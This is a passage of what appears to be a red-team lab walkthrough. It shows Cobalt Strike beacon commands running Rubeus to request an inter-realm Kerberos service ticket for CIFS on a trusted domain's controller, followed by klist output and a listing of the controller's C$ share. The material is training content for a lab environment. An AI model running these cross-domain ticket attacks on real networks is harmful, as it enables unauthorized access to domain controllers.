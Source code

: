 **Finally, use this inter-realm ticket to request TGS's in the target domain. Here, we are requesting a ticket for CIFS:**

```
beacon> execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgs /service:cifs/dc.dev-studio.com /domain:dev-studio.com /dc:dc.dev-studio.com /ticket:doIFoz[...]NPTQ== /nowrap

[*] Action: Ask TGS

[*] Requesting default etypes (RC4_HMAC, AES[128/256]_CTS_HMAC_SHA1) for the service ticket
[*] Building TGS-REQ request for: 'cifs/dc.dev-studio.com'
[*] Using domain controller: dc.dev-studio.com (10.10.150.10)
[+] TGS request successful!
[*] base64(ticket.kirbi):

doIFkD[...]8uY29t

ServiceName              :  cifs/dc.dev-studio.com
ServiceRealm             :  DEV-STUDIO.COM
UserName                 :  nlamb
UserRealm                :  DEV.CYBERBOTIC.IO
StartTime                :  9/12/2022 11:16:46 AM
EndTime                  :  9/12/2022 9:11:21 PM
RenewTill                :  9/19/2022 11:11:21 AM
Flags                    :  name_canonicalize, ok_as_delegate, pre_authent, renewable, forwardable
KeyType                  :  aes256_cts_hmac_sha1
Base64(key)              :  V1vCRoRX/9SAFe/ynWQIE9E9DYztP0mk6bg9BRx9Wjk=
```

**If desired, use `klist` to view our cached ticket(s):**

```
beacon> run klist

Current LogonId is 0:0x45bcb0

Cached Tickets: (1)

#0>	Client: nlamb @ DEV.CYBERBOTIC.IO
	Server: cifs/dc.dev-studio.com @ DEV-STUDIO.COM
	KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
	
beacon> ls \\dc.dev-studio.com\c$

 Size     Type    Last Modified         Name
 ----     ----    -------------         ----
          dir     08/16/2022 09:15:48   $Recycle.Bin
          dir     08/10/2022 04:55:17   $WinREAgent
          dir     08/10/2022 05:05:53   Boot
          dir     08/18/2021 23:34:55   Documents and Settings
          dir     08/19/2021 06:24:49   EFI
          dir     05/08/2021 08:20:24   PerfLogs
          dir     08/19/2021 06:35:15   Program Files
          dir     08/10/2022 04:06:16   Program Files (x86)
          dir     08/16/2022 09:26:24   ProgramData
          dir     08/16/2022 08:54:23   Recovery
          dir     08/16/2022 09:26:41   System Volume Information
          dir     08/16/2022 08:55:34   Users
          dir     08/16/2022 09:23:25   Windows
 427kb    fil     08/10/2022 05:00:07   bootmgr
 1b       fil     05/08/2021 08:14:33   BOOTNXT
 12kb     fil     09/12/2022 08:36:05   DumpStack.log.tmp
 384mb    fil     09/12/2022 08:36:05   pagefile.sys
```
